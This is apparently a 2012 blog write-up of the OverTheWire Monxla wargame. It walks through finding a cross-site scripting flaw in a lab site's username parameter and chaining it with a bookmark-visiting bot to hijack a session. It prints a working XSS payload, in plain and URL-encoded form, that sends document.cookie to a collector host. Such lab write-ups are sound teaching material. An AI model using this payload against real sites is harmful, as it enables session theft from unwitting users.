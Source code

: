```yaml
---
title: "OverTheWire Monxla Part 2"
date: "2012-11-25T05:05:00-05:00"
comments: true
highlight: "true"
categories:
 - overthewire
 - wargames
 - linux
 - monxla
---
```


In the previous post, I showed how to get the PDF that outlines the services running on the Monxla VM image. This article will continue where that one left off.

<!-- more -->

Firstly, the PDF explains that there are 2 virtual hosts enabled on the machine. To configure my machine for these virtual hosts, I added these lines to my /etc/hosts file: 

```
192.168.188.134 nasenko.otw
192.168.188.134 honeylink.otw
```

There are 2 sites immediately available to you:

* The HoneyLink site is, so far, just a convenience for the wargame, so you don't have to setup your own HTTP server.  It gives you a prefix URL, that you can prepend anything you want to the end.  It will then show you the responses as they come in. {{% figure class="img-responsive" src="/img/monxla2_2.png" %}}
* The Nasenko home page. This is what appears to be the main application that we are attacking. It has a Bookmark Service, and the Notes service, which were referenced in the PDF, immediately visible. {{% figure class="img-responsive" src="/img/monxla2_1.png" %}}

After poking around a bit, I found that you are unable to access the Notes service, since you're not logged in. Per the blog article on the main page, login attempts are disabled. On the Bookmarks page, it says that the submitted bookmarks are being visited routinely. These two statements combined immediately made me think of using a [Session Hijacking](https://en.wikipedia.org/wiki/Session_hijacking) attack to steal the session of the user already logged in, checking the submitted bookmarks. 

To get started with my attack, I tried submitting several bookmarks, which were always rejected.  There was some sort of filtering going on, on the server side.  For some reason, I decided to try submitting the Nasenko site itself, and saw that it was actually accepted.  This means that I could at least submit data, as long as it was from the same website.  From there, that made me start thinking about finding a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, so that I could redirect the traffic, and combine it with the Session Hijack attack. 

After searching for a bit, I found a Cross-Site Scripting vulnerability in the User Info page.  It wasn't cleanly filtering user input, so I was able to inject javascript into the "username" parameter. 

{{% figure class="img-responsive" src="/img/monxla2_3.png" %}}

To combine these two attacks, I crafted a URL that would use the Cross-Site Scripting attack to allow me to submit it from the proper host, as well as stealing the user's cookie: 

```
http://nasenko.otw/userinfo.php?username=<script>document.location='http://honeylink.otw/tH3zwj4P1z/cookie'+document.cookie;</script> 
```

However, due to some URL encoding issues (mainly the "+" splitting the parameter), I had to URL encode it using the [Burp Suite](http://portswigger.net/burp/): 

```
http://nasenko.otw/userinfo.php?username=%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%68%6f%6e%65%79%6c%69%6e%6b%2e%6f%74%77%2f%74%48%33%7a%77%6a%34%50%31%7a%2f%63%6f%6f%6b%69%65%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%3c%2f%73%63%72%69%70%74%3e
```

I submitted the URL to the Bookmark Service, and it gladly accepted it.  I then switched to the HoneyLink page, and clicked the "Refresh" button, and saw that my click had indeed been registered.  And lucky for me, it had the cookie listed:

{{% figure class="img-responsive" src="/img/monxla2_4.png" %}}

I then added a cookie with the stolen value. 

{{% figure class="img-responsive" src="/img/monxla2_5.png" %}}

When I then went to the Notes Service, which previously denied me access, I was able to view them. This meant it was successful. We successfully stole a valid user's session.

{{% figure class="img-responsive" src="/img/monxla2_6.png" %}}
